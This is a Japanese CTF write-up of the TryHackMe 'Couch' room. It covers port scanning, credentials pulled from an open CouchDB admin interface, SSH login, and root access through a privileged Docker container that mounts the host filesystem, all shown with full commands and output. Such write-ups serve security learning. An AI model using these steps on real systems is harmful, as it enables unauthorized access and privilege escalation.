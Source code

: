 # Couch

## このROOMの教訓/ポイント
- リファレンスを読むことが大事
    - 今回はExploitコードなしでrootまでいける
    - ツールに頼りすぎるとハマってしまう

## 攻撃シナリオ
1. ポートスキャン
1. リファレンスでサービスの情報収集
1. サービス内巡回＋クレデンシャル取得
1. クレデンシャルでSSH接続
1. 情報収集+権限昇格？


## ポートスキャン
```
└─# nmap -sV -sC -T4 -p- thm_target   
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## リファレンスでサービスの情報収集
- リファレンスを確認
    https://docs.couchdb.org/en/1.6.1/intro/tour.html

- データベース一覧見れる的な記述
```
we can get a list of databases:

curl -X GET http://127.0.0.1:5984/_all_dbs
```
- ブラウザ管理画面が見える的な記述
```
After having seen CouchDB’s raw API, let’s get our feet wet by playing with Futon, the built-in administration interface. Futon provides full access to all of CouchDB’s features and makes it easy to work with some of the more complex ideas involved. With Futon we can create and destroy databases; view and edit documents; compose and run MapReduce views; and trigger replication between databases.

To load Futon in your browser, visit:

http://127.0.0.1:5984/_utils/
```

## サービス内巡回＋クレデンシャル取得
- 実際にブラウザでアクセスしてみる
    - http://thm_target:5984/_utils
    - 探索していると如何にもなクレデンシャルがある
        - http://thm_target:5984/_utils/document.html?secret/a1320dd69fb4570d0a3d26df4e000be7

        - Fieldに[passwordbackup]という如何にもなクレデンシャルがある


## クレデンシャルでSSH接続

```
└─# ssh atena@thm_target
atena@thm_target's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-193-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Wed Aug  4 04:22:06 2021 from 10.17.16.164

```

## 情報収集+権限昇格？

- sudo -lやるも使えない
```
atena@ubuntu:~$ sudo -l
[sudo] password for atena: 
Sorry, user atena may not run sudo on ubuntu.
```
- ディレクトリ配下見てみると「.bash_history」がある
```
atena@ubuntu:~$ ls -al
total 48
drwxr-xr-x 6 atena atena 4096 Dec 18  2020 .
drwxr-xr-x 3 root  root  4096 Oct 24  2020 ..
-rw------- 1 atena atena 3171 Dec 18  2020 .bash_history
-rw-r--r-- 1 atena atena  220 Oct 24  2020 .bash_logout
-rw-r--r-- 1 atena atena 3771 Oct 24  2020 .bashrc
drwxr-xr-x 3 root  root  4096 Oct 24  2020 .bundle
drwx------ 2 atena atena 4096 Oct 24  2020 .cache
drwx------ 2 root  root  4096 Oct 24  2020 .gnupg
drwxrwxr-x 2 atena atena 4096 Dec 18  2020 .nano
-rw-r--r-- 1 atena atena  655 Oct 24  2020 .profile
-rw-r--r-- 1 atena atena    0 Oct 24  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 atena atena   22 Dec 18  2020 user.txt
-rw-r--r-- 1 root  root   183 Oct 24  2020 .wget-hsts
```

- 「.bash_history」見てみるといかがわかる
    - /root配下にroot.txtを作っている
    - /直下をdockerの/mntで見れるようにしている

```
atena@ubuntu:~$ cat .bash_history 
略
cd /root
ls
cd flag/
ls
cd ..
rm -r flag/
apt-get remove redis
nano root.txt
exit
sudo deluser USERNAME sudo
sudo deluser atena sudo
exit
sudo -s
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
uname -a
exit
```

- やってみる
```
atena@ubuntu:~$ docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
/ # whoami
root
/ # ls /mnt/root
root.txt

```
